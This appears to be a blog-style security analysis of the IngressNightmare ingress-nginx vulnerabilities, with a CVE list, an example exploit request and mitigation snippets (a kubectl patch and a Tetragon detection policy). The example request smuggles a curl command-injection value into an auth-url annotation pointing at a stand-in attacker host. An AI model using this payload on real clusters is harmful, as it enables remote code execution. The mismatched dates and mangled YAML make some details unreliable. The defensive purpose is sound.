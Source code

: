 ```yaml
---
title: Enhanced Ingress-NGINX Controller Security Analysis
date: 2024-02-23 12:34:27 -500
categories: [kubernetes security]
tags: [vulnerability,redteam]
---
```


## The IngressNightmare Vulnerabilities (CVE-2025 Series)
In March 2025, security researchers disclosed four critical vulnerabilities enabling full cluster compromise through the ingress-nginx admission controller[^2][^9]. These vulnerabilities exploit configuration injection flaws in:

1. **auth-url annotation** (CVE-2025-24514)
2. **auth-tls-match-cn annotation** (CVE-2025-1097)
3. **mirror-target/mirror-host** (CVE-2025-1098)
4. **Admission Controller RCE** (CVE-2025-1974 CVSS 9.8)

### Technical Exploit Chain
```

POST /networking/v1/ingresses HTTP/1.1
Host: admission-controller:8443
Content-Type: application/json

{
"apiVersion": "networking.k8s.io/v1",
"kind": "Ingress",
"metadata": {
"annotations": {
"nginx.ingress.kubernetes.io/auth-url": "http://attacker.com/$(curl${IFS}malicious.payload)"
}
}
}

```
This payload exploits CVE-2025-24514 to execute arbitrary commands during NGINX configuration validation[^9].

## Enhanced Mitigation Strategies
### 1. Admission Controller Hardening
```


# Restrict admission controller network exposure

kubectl patch svc ingress-nginx-controller-admission -p '{"spec":{"type":"ClusterIP"}}'

```
### 2. Runtime Security
```


# eBPF-based detection with Tetragon

apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
spec:
kprobes:

- call: "execve"
syscall: true
args:
    - index: 0
type: "string"
selectors:
    - matchArgs:
        - index: 0
operator: "Prefix"
values: ["/usr/local/nginx"]

```
This policy detects suspicious process executions in ingress-nginx pods[^8].
```